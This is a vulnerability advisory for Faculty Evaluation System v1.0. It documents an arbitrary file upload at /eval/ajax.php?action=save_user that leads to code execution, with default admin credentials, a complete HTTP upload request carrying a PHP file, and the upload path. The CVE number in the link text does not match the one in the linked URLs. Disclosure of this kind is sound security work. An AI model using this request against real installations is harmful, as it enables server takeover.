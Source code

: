 # Faculty Evaluation System v1.0 by oretnom23 has arbitrary code execution (RCE)

[CVE-2023-33439](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-33440)

[NVD Score: **7.2 HIGH**](https://nvd.nist.gov/vuln/detail/CVE-2023-33440)

BUG_Author: WuQi Qi and Zhihong Tian, Guangzhou University

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Login account: admin@admin.com/admin123 (Super Admin account)

Vulnerability url: ip/eval/ajax.php?action=save_user

Loophole location: Faculty Evaluation System's "/eval/ajax.php?action=save_user" file exists arbitrary file upload (RCE)

Request package for file upload：


```sql
POST /eval/ajax.php?action=save_user HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/eval/index.php?page=edit_user&id=1
Content-Length: 818
Content-Type: multipart/form-data; boundary=---------------------------1037163726497
Cookie: PHPSESSID=qm3tmf7esa9t4jsgeln6vna57r
Connection: close

-----------------------------1037163726497
Content-Disposition: form-data; name="id"

1
-----------------------------1037163726497
Content-Disposition: form-data; name="firstname"

Administrator
-----------------------------1037163726497
Content-Disposition: form-data; name="lastname"

a
-----------------------------1037163726497
Content-Disposition: form-data; name="img"; filename="hack.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------1037163726497
Content-Disposition: form-data; name="email"

admin@admin.com
-----------------------------1037163726497
Content-Disposition: form-data; name="password"


-----------------------------1037163726497
Content-Disposition: form-data; name="cpass"


-----------------------------1037163726497--
```

The uploaded file path has returned in response.

The files will be uploaded to this directory \eval\assets\uploads\
![image](https://user-images.githubusercontent.com/54017627/235872023-d853de72-5f23-48a0-9651-bc20dc09e2f4.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/235872093-f56e962b-abde-4332-ac40-7efb971646ce.png)

